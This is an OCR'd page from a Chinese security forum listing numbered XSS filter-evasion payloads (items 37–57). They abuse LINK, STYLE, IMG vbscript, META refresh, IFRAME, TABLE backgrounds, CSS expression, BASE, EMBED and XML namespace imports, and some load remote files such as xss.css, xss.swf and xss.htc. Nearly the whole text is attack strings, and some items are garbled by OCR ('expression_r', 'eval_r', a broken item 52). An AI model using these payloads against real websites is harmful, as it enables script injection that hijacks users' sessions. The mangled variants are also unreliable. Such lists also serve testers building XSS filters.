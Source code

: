 ```
<LINK REL="stylesheet" HREF="javascript:alert('XSS');">

(38)远程样式表
<LINK REL="stylesheet" HREF="http://3w.org/xss.css">

(39)List-style-image(列表式)
<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS

(40)IMG VBscript
<IMG SRC='vbscript:msgbox("XSS")'></STYLE><UL><LI>XSS

(41)META 链接 url
<META HTTP-EQUIV="refresh" CONTENT="0;URL=http://;URL=javascript:alert('XSS');">

(42)Iframe
<IFRAME SRC="javascript:alert('XSS');"></IFRAME>

(43)Frame
<FRAMESET><FRAME SRC="javascript:alert('XSS');"></FRAMESET>12-7-1 T00LS - Powered by Discuz!
Boardhttps://www.a.com/viewthread.php?action=printable&tid=15267 3/6

(44)Table
<TABLE BACKGROUND="javascript:alert('XSS')">

(45)TD
<TABLE><TD BACKGROUND="javascript:alert('XSS')">

(46)DIV background-image
<DIV STYLE="background-image: url(javascript:alert('XSS'))">

(47)DIV background-image 后加上额外字符(1-32&34&39&160&8192-8&13&12288&65279)
<DIV STYLE="background-image: url(javascript:alert('XSS'))">

(48)DIV expression
<DIV STYLE="width: expression_r(alert('XSS'));">

(49)STYLE 属性分拆表达
<IMG STYLE="xss:expression_r(alert('XSS'))">

(50)匿名 STYLE(组成:开角号和一个字母开头)
<XSS STYLE="xss:expression_r(alert('XSS'))">

(51)STYLE background-image
<STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><ACLASS=XSS></A>

(52)IMG STYLE 方式
exppression(alert("XSS"))'>

(53)STYLE background
<STYLE><STYLEtype="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>

(54)BASE
<BASE HREF="javascript:alert('XSS');//">

(55)EMBED 标签,你可以嵌入 FLASH,其中包涵 XSS
<EMBED SRC="http://3w.org/XSS/xss.swf" ></EMBED>

(56)在 flash 中使用 ActionScrpt 可以混进你 XSS 的代码
a="get";b="URL(\"";c="javascript:";d="alert('XSS');\")";eval_r(a+b+c+d);

(57)XML namespace.HTC 文件必须和你的 XSS 载体在一台服务器上
<HTML xmlns:xss><?import namespace="xss"
implementation="http://3w.org/XSS/xss.htc"><xss:xss>XSS</xss:xss></HTML>
```